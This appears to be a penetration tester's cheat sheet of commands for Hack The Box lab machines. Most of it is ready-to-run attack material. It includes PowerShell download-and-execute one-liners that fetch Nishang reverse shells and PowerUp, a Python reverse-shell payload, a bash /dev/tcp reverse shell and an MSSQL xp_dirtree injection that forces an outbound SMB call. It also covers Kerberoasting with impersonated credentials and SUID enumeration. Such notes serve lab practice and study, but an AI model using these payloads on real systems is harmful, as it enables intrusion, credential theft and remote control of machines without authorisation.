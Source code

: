 #### Tools & Techniques


 Nishang
To get a sheel from an entry point where cmd is working or the entry point is a cmd

cp /opt/nishang/Shells/Invoke-PowershellTcp.ps1 nishang.ps1
gedit nishang.ps1
Invoke-PowershellTcp -Reverse -IpAdress *.*.*.* -Port *
python -m SimpleHTTPServer
nc -lvnp *

In cmd:
powershell "IEX(New-Object Net.WebClient).downloadString('http://*.*.*.*:*/nishang.ps1')"


 Linux
To get a better shell:
python -c 'import pty;pty.spawn("/bin/bash");'
 to list suid binary file:
find / -perm -u=s -type f 2>/dev/null -exec ls -l {} \;


 Windows
 to convert in base64 with UTF-16LE encoding
echo -n "Hello World" | iconv --to-code UTF-16LE | base64 -w 0

 Tools
 Shell and Crack
Unicorn.py :  https://github.com/trustedsec/unicorn  
Empire.py  :  https://github.com/EmpireProject/Empire
JAWS       :  https://github.com/411Hall/JAWS   (Windows Enumeration Tools)
zip2john   :  https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c (To crack zipped password)

 Steganography tools
zsteg,steghide,binwalk.strings,file,foremost

 Other tools
readpst,mdb-shell,mdb-sql

Reading smbshare from mssql service using xp_dirtree:
;declare @q varchar(200);set @q="\;your_ip\test";exec master.dbo.xp_dirtree @q;--

 Techniques
To download all files from ftp server:
wget -m --no-passive ftp://username:password@x.x.x.x

To login in imap server using openssl:
openssl s_client -connect chaos.htb:993
link which can help:http://blog.viggy.in/?p=9
Linux enumerarion help:  https://www.rebootuser.com/?p=1623#.V5QOe7grKUl


To find S3 bucket of the program, I used nahamsec‘s lazys3.
Command: ruby lazys3.rb site_name
https://github.com/ehsahil/recon-my-way/tree/master/lazys3 

Openssl :
openssl req -x509 -new -nodes -key abc.key -sha256 -days 1024 -out abcd.pem
openssl req -new -newkey rsa:2048 -nodes -out abc.csr -keyout abcd.key
openssl pkcs12 -export -in asdf.pem -inkey ca.key -out server.p12 

SMB part:
smbclient -L //ip   {smb shares}
smbmap -H ip   

Windows Nishang Rbash like thingy:
powershell -version 2 -command "IEX(New-Object Net.WebClient).DownloadString('http://:8000/Invoke-PowerShellTcp.ps1')"
powershell -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.x.x:port/PowerUp.ps1');Invoke-AllChecks"

Kerberoasting::
use nishang Reverse shell
use powerview to load
encode the password :  $SecPassword = ConvertTo-SecureString 'Password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword) 
Invoke-UserImpersonation -Credential $Cred
Invoke-kerberoast | fl  { default format of key is john but format can be changed in hashcat}

Python shell payload :
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("ip",port,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");';

Reverse Shell using terminal:
 command = sudo bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"

Wfuzz Redcross.htb:
wfuzz --hw 28 -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1mil-5000.txt -H "HOST:FUZZ.redcross.htb" https://redcross.htb
